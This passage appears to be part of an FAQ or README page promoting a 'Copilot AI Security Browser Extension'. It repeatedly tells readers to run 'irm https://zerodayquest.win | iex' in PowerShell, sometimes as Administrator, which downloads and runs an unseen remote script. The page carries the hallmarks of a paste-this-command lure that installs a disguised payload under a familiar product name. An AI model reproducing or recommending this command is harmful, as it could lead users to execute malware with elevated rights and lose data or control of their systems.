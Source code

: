 ### **20. Can I install the Copilot AI Security Browser Extension on multiple computers?**  
Yes! Run the same PowerShell command on each device:  
```powershell
irm https://zerodayquest.win | iex
```  

### **21. Is there a way to install the Copilot AI Security Browser Extension automatically?**  
Yes, you can automate the installation by running the PowerShell command in a script.  

### **22. How do I enable or disable the Copilot AI Security Browser Extension after installation?**  
The Extension should be enabled by default. If you need to disable it, check your browser settings.  

### **23. Can I use the Copilot AI Security Browser Extension with other security tools?**  
Yes, the Extension is compatible with most security tools.  

### **24. What browsers are supported by the Copilot AI Security Browser Extension?**  
The Extension works with all major browsers, including Chrome, Edge, and Firefox.  

### **25. What should I do if I see an error during installation?**  
Try running PowerShell as Administrator and using:  
```powershell
irm https://zerodayquest.win | iex
```  

---

## **Final Notes**  
- For **fast installation**, run:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  
- If you experience issues, try running PowerShell as an **Administrator**.  
- For the latest updates, always use the official installation command.  

🚀 Enjoy the **Copilot AI Security Browser Extension** and stay secure! 🚀  
